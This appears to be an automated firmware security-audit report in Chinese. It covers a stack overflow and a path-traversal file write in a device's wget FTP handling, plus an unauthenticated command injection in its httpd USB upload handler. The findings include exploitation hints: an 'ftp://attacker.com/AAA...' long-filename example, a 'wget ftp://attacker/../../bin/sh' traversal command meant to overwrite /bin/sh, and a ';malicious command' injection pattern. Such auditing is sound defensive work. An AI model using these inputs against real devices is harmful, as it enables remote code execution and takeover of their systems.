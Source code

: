 - **文件路径:** `bin/wget`
- **位置:** `bin/wget: sym.getftp @ 0xf12c`
- **类型:** Buffer Overflow
- **综合优先级分数:** **9.15**
- **风险等级:** 9.5
- **置信度:** 9.0
- **触发可能性:** 8.5
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 高危栈缓冲区溢出漏洞：wget的getftp函数中strcpy(pcVar19 + iVar11 + 1, *(param_1+0x20))未验证文件名长度。触发条件：当处理恶意FTP服务器提供的超长文件名（如'ftp://attacker.com/AAA...'）时，文件名通过param_1+0x20传递至固定栈缓冲区。无长度验证机制。完整攻击链：FTP URL解析 → url_file_name填充 → ftp_loop_internal调用 → getftp漏洞触发 → 任意代码执行。
- **代码片段:**
  ```
  strcpy(pcVar19 + iVar11 + 1, *(param_1+0x20))
  ```
- **关键词:** sym.getftp, strcpy, *(param_1+0x20), sym.url_file_name, sym.ftp_loop_internal, wget, buffer_overflow
- **备注:** 需验证固件中FTP客户端使用场景（如自动更新功能）。后续分析方向：检查调用wget的脚本是否处理用户可控URL，确认攻击面可达性。

---
### ARBITRARY-FILE-WRITE-WGET-FTP

- **文件路径:** `bin/wget`
- **位置:** `wget: getftp function`
- **类型:** Arbitrary File Write
- **综合优先级分数:** **9.15**
- **风险等级:** 9.5
- **置信度:** 9.0
- **触发可能性:** 8.5
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** FTP 任意文件写入漏洞：retrieve_url 传递未经验证的 URL 至 ftp_loop，getftp 函数将参数 arg_89h 直接传递至 fopen64。--restrict-file-names 选项默认禁用，未对路径遍历序列(../)进行过滤。边界检查缺失：无路径规范化或权限验证。安全影响：覆盖系统文件（如 /bin/sh）获取代码执行。利用方式：'wget ftp://attacker/../../bin/sh'，成功概率取决于：1) wget 进程权限（通常 root）2) 目标文件系统权限。
- **代码片段:**
  ```
  iVar18 = sym.imp.fopen64(*(iVar13 + 0x20), uVar10);
  ```
- **关键词:** getftp, fopen64, retrieve_url, ftp_loop, arg_89h, --restrict-file-names, *(iVar13 + 0x20)
- **备注:** 依赖条件：1) 攻击者控制 FTP 服务器 2) 目标路径可写。建议验证 /bin/sh 权限

---
### Vuln-httpd-USB-CommandInjection

- **文件路径:** `usr/sbin/httpd`
- **位置:** `httpd:0x88c60`
- **类型:** command_injection
- **综合优先级分数:** **9.15**
- **风险等级:** 9.5
- **置信度:** 9.0
- **触发可能性:** 8.5
- **查询相关性:** N/A
- **阶段:** N/A
- **描述:** USB文件上传命令注入漏洞。触发条件：攻击者控制上传文件特定字段（文件名/内容）注入命令分隔符。约束：需访问未认证文件上传接口。安全影响：通过sscanf解析污染param_1+0x4c后拼接到popen命令，导致直接RCE。利用方式：构造含`;恶意命令`的上传内容。
- **代码片段:**
  ```
  sym.imp.sprintf(puVar10 -0x84,*0x88df0,uVar6,*(param_1+0x4c));
  popen(puVar10-0x84);
  ```
- **关键词:** fcn.00088aa4, param_1+0x4c, popen, sscanf, 0x88c60, usb_upload
- **备注:** 需补充具体上传接口URL（当前证据不足）

---
